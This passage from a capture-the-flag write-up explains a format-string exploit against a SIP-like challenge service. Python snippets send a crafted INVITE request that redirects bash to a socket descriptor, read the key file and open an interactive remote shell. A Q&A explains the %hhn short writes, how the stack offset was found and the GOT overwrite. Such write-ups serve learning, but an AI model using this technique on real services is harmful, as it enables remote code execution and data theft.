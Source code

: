 ```python

time.sleep(0.2)

s.recv(1024)
```

It's time to explain this magic - we rewrite the address byte by byte using **%u** flag (used to determine value to be written), **Direct Parameter Access** (to make asprintf to use 9th parameter in stack as a pointer for **$hhn**) and **Short Writes** (not to touch the memory around @inet_addr entry). These ugly ``.replace('\t', '')`` are used because indent we use while declaring a proc is included at string itself.

**Q**: How did we understood we need 9th parameter? Why 'Common Name' starts with a bunch of 'x'es?

**A**: It is done experimentally: you place an 'AAAAAAAA' string to 'Common Name' and use a sequence of '%08x.' flags to print the stack. You will hardly have a solid "0x4141414141414141" value, so just play with padding! After several iterations you will understand which parameter to use and how long padding should be.

**Q**: What the heck is that 0xe9 constant? How did we get it?

**A**: Experimentally! Just put a breakpoint at @exit like ``br exit``, launch exploit and compare what was written at ``x/xg 0x6130A8``with the value supposed to be written. Every byte will differ by a constant :)

**Q**: Why do you use SEARCH command after each REGISTER? We can 'stack' REGISTER and then issue only one SEARCH to trigger format string bomb!

**A**: That's right! But I had issues with such approach - connection closed -_- So i decided to go dirty way.

Now we can call @system with almost arbitrary string (there should be no spaces). How this string should look like?

More magic!
```python
trigger vuln
s.sendall('''INVITE sip:x@bash<&4 GITSSIP/0.1
To: x
Via: x
From: x
Contact: x
Allow: x

exec 0>&4 1>&4
cat key
''')

t = telnetlib.Telnet()
t.sock = s
t.interact()
```

**Q**: What do these ``bash<&4``, ``exec 0>&4 1>&4`` do?

**A**: The former is used to 'tie' bash communication channel to 4'th file descriptor. The latter redirects **stdout** (1) and **stdin**(0) to 4-th fd.

**Q**: Why to use telnet? 

**A**: Just4lulz - so we can send arbitrary command to remote shell :)
